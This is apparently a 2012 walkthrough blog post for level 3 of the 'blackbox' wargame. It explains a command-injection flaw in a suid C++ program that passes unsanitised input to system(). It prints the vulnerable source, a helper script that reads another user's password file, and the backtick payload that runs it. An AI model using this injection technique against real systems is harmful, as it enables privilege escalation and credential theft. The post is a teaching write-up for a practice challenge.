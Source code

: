 ```yaml
---
layout: post
title:  "Blackbox"
subtitle: "Level 3"
date:   2012-01-22
categories: reverse-engineering
---
```


Hi again. This is be another chapter in the series of the blackbox walkthrough.

__As in the previous posts, the password for the next level has been replaced with question marks so as to not make this too obvious, and so that the point of the walkthrough, which is mainly educational, will not be missed.__

Also, make sure you notice this SPOILER ALERT! If you want to try and solve the level by yourself then read no further!

Good, let's start:

```
$ ssh -p 2225 level3@blackbox.smashthestack.org
level3@blackbox.smashthestack.org's password:
...
level3@blackbox:~$ ls -l
total 1180
-rw-r--r-- 1 root   level3      12 2007-12-29 14:10 password
-rwxr-xr-x 1 root   level3      59 2007-12-29 14:10 PID
-rwsr-xr-x 1 level4 level4 1189178 2008-01-15 01:42 proclist
-rw-r--r-- 1 root   level3     490 2007-12-29 14:10 proclist.cc
```

Again, the executable has the suid bit, which means we need to make the program do something for us.

Let's take a look at the source we got:

```cpp
#include <iostream>
#include <string>

int main(int main, char **argv)
{
 std::string command;
 std::string program;

 std::cout << "Enter the name of the program: ";
 std::cin >> program;

 for(unsigned int i = 0; i < program.length(); i++) {
  if(strchr(";^&|><", program[i]) != NULL) {
   std::cout << "Fatal error" << std::endl;
   return 1;
  }
 }


 // Execute the command to list the programs
 command = "/bin/ps |grep ";
 command += program;
 system(command.c_str());

 return 0;
}
```

Well, looks pretty straightforward, the program reads some string, then sanitizes it a bit, and then runs `ps` and filters the output according to that string.

Seems pretty airtight though...We can't use spaces as `cin` will only take the first word. We can't do any fancy shell stuff like redirection or piping...

However, there is one thing that does not get sanitized here - backticks! So if we write some expression inside backticks, when it gets passed to system, `sh` will resolve whatever is in the backticks, and append the output as a parameter to `grep`.

What can we do then? Anything which can be scripted in a file.

What do we want? Level 4's password.

Well, the obvious way to do that is to print the contents of `/home/level4/password` to some file in a place to which we have access (like `/tmp/`).

But this requires some preparation, because if we want to redirect into some file, we need to make sure the `level4` user has permissions to write to that file.

So first we make the file:

```
level3@blackbox:/tmp$ touch level4pass
level3@blackbox:/tmp$ ls -l level4pass
-rw-r--r-- 1 level3 gamers 0 2012-01-22 17:39 level4pass
level3@blackbox:/tmp$ chmod ugo+rw level4pass
level3@blackbox:/tmp$ ls -l level4pass
-rw-r--rw- 1 level3 gamers 0 2012-01-22 17:39 level4pass
```

And write the script:

```
level3@blackbox:/tmp$ cat > getlevel4pass
#!/bin/sh
cat /home/level4/password > /tmp/level4pass

level3@blackbox:/tmp$ chmod ugo+rwx getlevel4pass
level3@blackbox:/tmp$ ls -l getlevel4pass
-rwxrwxrwx 1 level3 gamers 54 2012-01-22 17:42 getlevel4pass
```

And make `proclist` run it:

```
level3@blackbox:~$ ./proclist 
Enter the name of the program: `/tmp/getlevel4pass` 
Usage: grep [OPTION]... PATTERN [FILE]...
Try `grep --help' for more information.
Let's check if it did anything:

level3@blackbox:~$ cat /tmp/level4pass
?????????
```

Success!
